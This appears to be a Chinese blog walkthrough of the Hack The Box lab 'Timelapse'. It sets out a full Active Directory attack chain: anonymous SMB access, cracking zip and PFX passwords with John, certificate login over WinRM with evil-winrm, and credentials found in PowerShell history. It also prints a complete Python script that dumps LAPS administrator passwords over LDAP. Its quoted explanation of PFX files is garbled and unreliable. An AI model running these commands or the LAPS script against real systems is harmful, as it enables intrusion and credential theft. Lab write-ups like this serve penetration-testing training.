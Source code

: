 ```yaml
---
title: Timelapse
date: 2022-04-02 20:24:09
tags: HackThebox
categories: 内网渗透
---
```


## 信息收集
做信息收集的时候，发现是一台内网靶机，开放了很多内网相关的端口。我们也发现了一个域名`timelapse.htb`，我们可以添加到hosts文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/b363e71b5b4c4883a978e38380b664a1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
目标开放了SMB服务，我们尝试是否可以匿名登录SMB服务。发现可以匿名登录，`Shares`目录可以进行读取

```bash
smbmap -u guest -p "" -H 10.10.11.152
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3da8a600e7134088a39b0b6a69d30061.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

然后我们尝试匿名登录到这个目录上，看到存在一个备份文件压缩包。我们将其下载下来进行进一步分析

```bash
smbclient \\\\10.10.11.152\\Shares -U guest
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3c22cf39fa7c4d559bb37663f1be6e5a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们下载下来后尝试解压，发现需要密码，我们将其哈希提取出来，并进行密码爆破

```bash
zip2john winrm_backup.zip > hash
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/cfc92e6c1b744cc6a860bedcd77d9270.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现密码是`supremelegacy`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f852f3e5c3154f75bd511daacb55cf01.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
解压出来发现是一个pfx格式的文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/efab625b6c944696b66c0055cff99376.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这是关于pfx文件的具体解释

> **文件的扩展名PFX的系统文件，以嵌入到它的加密安全功能特别文件。这些的加密安全功能的.pfx文件包括用来参与确定身份验证过程数字证书的用户或设备都可以访问某些文件，系统本身或者计算机连接的是那些具有管理员权限的网络是否。这些PFX文件需要密码就可以使用Adobe Acrobat X或Adobe Reader中打开之前。这意味着这些PFX文件是保护或保护用户免受黑客，第三方用户的计算机和网络，而无需访问系统和网络资源的同意有益的以及恶意应用程序，指示它来访问这些受保护的资源和数据的代码。 PFX文件可能在Mac和Microsoft Windows系统中找到，并且可用于打开这些应用程序的.pfx文件是使用Adobe Acrobat X和Adobe Reader与Mac或Microsoft Windows环境兼容的版本。**

因为pfx文件是经过数字签名加密的，我们可以使用`openssl`命令进行分析，这里我们同时使用pkcs12文件工具，能生成和分析pkcs12文件。PKCS#12文件可以被用于多个项目，例如包含Netscape、 MSIE 和 MS Outlook。但是我们使用之前破解的密码时发现并不能使用

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/563b8033165244268dec20bb300f0b29.png)
此时我们需要使用另一个工具`pfx2john`对该pfx文件的哈希进行导出

```bash
pfx2john legacyy_dev_auth.pfx > pfx_hash
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0a6b4aaef994435a88bf2cc0150d7b10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
破解得到密码为`thuglegacy`，记住这个密码，后面我们还需要频繁使用
![在这里插入图片描述](https://img-blog.csdnimg.cn/b40e418cf14b492680a75b297abc97b7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们输入这个破解的密码，得到私钥文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/0dcc546c60134758a20902dbaadd454c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们还必须得得到一个证书文件才能用于登录

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/86fb631c369e41b189fa2f6b7f21524b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为前面信息收集时发现目标主机开放了5986的`WinRM`端口，这是用于横向渗透的端口，我们可以使用`evil-winrm`工具进行连接。`-S`参数是指ssl参数连接，`-c`是充当公钥，`-k`是私钥，`-p和-u`分别是用户名和密码

```bash
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/54bb44dfa52349acb27153a40dab0417.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到Administrator
我们上传一个`winPEASx64.exe`程序查看可提权的项
![在这里插入图片描述](https://img-blog.csdnimg.cn/81ce1cddc1b4435fb5ea1b0622e4937a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看到存在一个powershell的历史文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/d6a93b246b6a4879afd98bce7f6d691b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以尝试下载看看其内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/0db888c948ee40d99eced4e164122e39.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查看文件内容时，发现里面存在一个用户名`svc_deploy`和密码`E3R$Q62^12p7PLlC%KWaxuaV`
![在这里插入图片描述](https://img-blog.csdnimg.cn/f06f173fb7b84cad8e0128a1f526acf3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用`laps.py`脚本，对域的计算机的本地帐户密码进行导出

```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, extend, SUBTREE
import argparse

parser = argparse.ArgumentParser(description='Dump LAPS Passwords')
parser.add_argument('-u','--username',  help='username for LDAP', required=True)
parser.add_argument('-p','--password',  help='password for LDAP (or LM:NT hash)',required=True)
parser.add_argument('-l','--ldapserver', help='LDAP server (or domain)', required=False)
parser.add_argument('-d','--domain', help='Domain', required=True)

def base_creator(domain):
    search_base = ""
    base = domain.split(".")
    for b in base:
        search_base += "DC=" + b + ","
    return search_base[:-1]


def main():
    args = parser.parse_args()
    if args.ldapserver:
        s = Server(args.ldapserver, get_info=ALL)
    else:
        s = Server(args.domain, get_info=ALL)
    c = Connection(s, user=args.domain + "\\" + args.username, password=args.password, authentication=NTLM, auto_bind=True)
    c.search(search_base=base_creator(args.domain), search_filter='(&(objectCategory=computer)(ms-MCS-AdmPwd=*))',attributes=['ms-MCS-AdmPwd','SAMAccountname'])
    for entry in c.entries:
        print (str(entry['sAMAccountName']) +":"+ str(entry['ms-Mcs-AdmPwd']))

if __name__ == "__main__":
    main()
```
最后我们得到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3aa6b20e2af44dba8c4be112c645a7f1.png)
成功获取到管理员权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/2f56e2e08f17496cb47d7f12709542a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
